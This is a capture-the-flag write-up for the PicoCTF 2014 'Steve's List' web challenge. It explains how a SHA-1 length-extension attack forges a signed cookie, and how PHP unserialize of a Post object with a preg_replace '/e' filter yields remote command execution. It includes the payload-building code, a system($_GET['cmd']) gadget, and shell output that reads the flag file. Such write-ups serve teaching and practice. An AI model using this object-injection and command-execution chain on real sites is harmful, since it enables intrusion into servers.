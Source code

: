 Steve's List - PicoCTF 2014
===

###Problem: 

Section Chief Steve was super proud of the website he was writing, but he's pretty new to programming. When Daedalus Corp caught wind of this, they hacked [his site](http://steveslist.picoctf.com/). Steve still has an [old backup](https://picoctf.com/problem-static/web/steves-list/handout.zip), but they changed the secrets! They sent us a cryptic message saying they bet we couldn't read /home/daedalus/flag.txt. Can you go get it for us? 

###Analysis: 

A quick look through the source code of the website shows that the `custom_settings` cookie is parsed into an array of strings, which are then deserialized as PHP objects. If we can modify this cookie, we may be able to inject a PHP object:

```php
    $settings_array = explode("\n", $custom_settings);
    $custom_settings = array();
    for ($i = 0; $i < count($settings_array); $i++) {
      $setting = $settings_array[$i];
      $setting = unserialize($setting);
      $custom_settings[] = $setting;
    }
```
 
Unfortunately, the cookie is signed by the server using a SHA-1 hash of a secret value + the cookie. If the signature doesn't match, the server won't deserialize our object:

```php
    $hash = sha1(AUTH_SECRET . $custom_settings);
    if ($hash !== $_COOKIE['custom_settings_hash']) {
      die("Why would you hack Section Chief Steve's site? :(");
    }
```

Fortunately, the way the signature is calculated isn't secure. Using the cookie and signature pair that the server gives us, we can use a length-extension attack to make a new cookie with added data, and a valid signature for it, without knowing the secret. [HashPump](https://github.com/bwall/HashPump) is a good open-source program for doing this.

Now that we can inject PHP objects, the next step is to figure out a way to use this for our advantage. Unlike Python's pickle module, PHP's serialize won't just let us execute arbitrary code as-is. We'll have to exploit an existing class on the website by creating an instance which will do somethign dangerous. The Post class (in includes/classes.php) seems like a good target, because it implements the magic `__destruct` method which will be executed automatically when the object is destroyed:

```php
    function __destruct() {
      // debugging stuff
      $s = "<!-- POST " . htmlspecialchars($this->title);
      $text = htmlspecialchars($this->text);
      foreach ($this->filters as $filter)
        $text = $filter->filter($text);
      $s = $s . ": " . $text;
      $s = $s . " -->";
      echo $s;
    }
```

At first there's no obvious way to use this function to our advantage, but it turns out the `filter` function uses `preg_replace`, which will execute arbitrary PHP for us if the 'e' modifier is set (WTF PHP?).


###Solution: 

Construct a Post object that will run commands for us:

```php
$filters = array(new Filter('/.*/e', 'system($_GET["cmd"])'));
$post = new Post('', '', $filters);
echo bin2hex(serialize($post));
```

Use HashPump to append this value (seperated by a newline) to our cookie, with a valid signature.

Now we can run arbitrary system commands via the cmd parameter. shell.py uses this to present a rudimentary shell.

After a bit of searching the flag is easily found:

```
[joseph@jcmbp steves-list]$ python shell.py 
$ ls /home
daedalus
ubuntu
$ ls /home/daedalus
flag.txt
$ cat /home/daedalus/flag.txt
D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve
```

